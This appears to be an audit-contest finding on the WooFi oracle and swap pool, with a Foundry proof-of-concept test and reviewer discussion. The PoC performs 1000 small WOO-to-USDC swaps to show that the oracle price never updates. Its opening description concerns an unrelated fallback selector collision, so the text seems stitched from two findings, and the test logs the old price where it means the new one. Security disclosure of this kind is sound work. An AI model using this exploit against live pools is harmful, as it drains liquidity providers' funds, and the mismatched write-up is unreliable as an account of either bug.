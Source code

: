 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
swapping 1 WOO, 1000 times in single tx, receives 9.98 DAI in return without changing the price. If done with more iterations the impact is higher.
```solidity
function test_SwapsHappenPriceIsNotUpdatedDueToRoundDown() public {
        // USDC --> DAI address, mind the naming..
        uint usdcAmount = 1_000_000 * 1e18;
        uint wooAmount = 100_000 * 1e18;
        uint wethAmount = 1_000 * 1e18;
        deal(USDC, ADMIN, usdcAmount);
        deal(WOO, ADMIN, wooAmount);
        deal(WETH, ADMIN, wethAmount);

        vm.startPrank(ADMIN);
        IERC20(USDC).approve(address(pool), type(uint256).max);
        IERC20(WOO).approve(address(pool), type(uint256).max);
        IERC20(WETH).approve(address(pool), type(uint256).max);
        pool.depositAll(USDC);
        pool.depositAll(WOO);
        pool.depositAll(WETH);
        vm.stopPrank();

        uint wooAmountForTapir = 1e18 * 1000;
        vm.startPrank(TAPIR);
        deal(WOO, TAPIR, wooAmountForTapir);
        IERC20(USDC).approve(address(router), type(uint256).max);
        IERC20(WOO).approve(address(router), type(uint256).max);
        IERC20(WETH).approve(address(router), type(uint256).max);
        vm.stopPrank();

        // WHERE THE MAGIC HAPPENS
        (uint128 price, ) = oracle.woPrice(WOO);
        console.log("price", price);
        
        uint cumulative;
        for (uint i = 0; i < 1000; ++i) {
            vm.prank(TAPIR);
            cumulative += router.swap(WOO, USDC, wooAmountForTapir / 1000, 0, payable(TAPIR), TAPIR);
        }

        (uint128 newPrice, ) = oracle.woPrice(WOO);
        console.log("price", price);

        console.log("Cumulative", cumulative);

        // price hasnt changed although there are significant amount of tokens are being traded by TAPIR
        assertEq(newPrice, price);
    }
```

**fb-alexcq**

For me, it still looks legit when the swap amount is so small (with such a low coef slippage), the gamma could be 0. You think about when you trade 1 dai to usdc, you probably ended up with no slippage.

But to make the judgement more rigorous, I'm double checking with our algorithm dev. 

**WangSecurity**

@fb-alexcq have you checked with the algorithm dev?

````